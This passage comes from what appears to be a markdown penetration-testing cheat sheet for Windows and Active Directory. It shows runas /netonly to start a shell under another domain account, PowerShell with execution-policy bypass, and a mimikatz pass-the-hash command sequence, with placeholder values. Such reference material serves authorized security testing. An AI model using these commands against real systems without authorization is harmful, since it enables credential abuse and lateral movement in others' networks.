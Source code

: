 ### <a name='spawn-cmd'></a>spawn-cmd

Spawn an AD account with CMD.exe:

![funny reminder](/assets/images/pen-win-sys-spawn-cmd.jpg)

:link: Check the **readthedocs of sharphound** to [spawn an AD account](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html#running-sharphound-from-a-non-domain-joined-system).

```powershell
# using a cleartext password
runas /netonly /user:adm_x@dom.corp powershell
```

### <a name='run-powershell'></a>run-powershell


#### <a name='bypass-exec-powershell'></a>bypass-exec-powershell

#### <a name='load-powersploit'></a>load-powersploit

* run powershell:
```
powershell -ep bypass

# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"
```
